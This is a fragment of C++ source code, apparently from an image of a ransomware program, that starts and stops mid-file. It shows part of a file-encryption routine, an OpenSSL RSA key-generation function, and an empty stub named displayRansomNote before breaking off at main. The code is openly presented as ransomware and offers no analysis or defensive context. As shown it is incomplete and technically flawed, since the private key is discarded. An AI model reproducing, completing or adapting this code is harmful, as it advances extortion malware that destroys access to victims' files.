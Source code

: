         encryptedFile.write(reinterpret_cast<char*>(encryptedData), result);

        encryptedFile.close();

    }



    delete[] encryptedData;

}



std::string generatePublicKey()

{

    RSA* rsa = RSA_new();

    BIGNUM* e = BN_new();

    BN_set_word(e, RSA_F4);



    RSA_generate_key_ex(rsa, 2048, e, nullptr);

    BIO* bio = BIO_new(BIO_s_mem());

    PEM_write_bio_RSAPublicKey(bio, rsa);

    

    char* publicKey;

    long len = BIO_get_mem_data(bio, &publicKey);

    std::string publicKeyString(publicKey, len);



    BIO_free_all(bio);

    RSA_free(rsa);

    BN_free(e);



    return publicKeyString;

}



void displayRansomNote(const std::string& publicKey)

{

    // Insert code to display ransom note with the generated public key

}



int main()

{
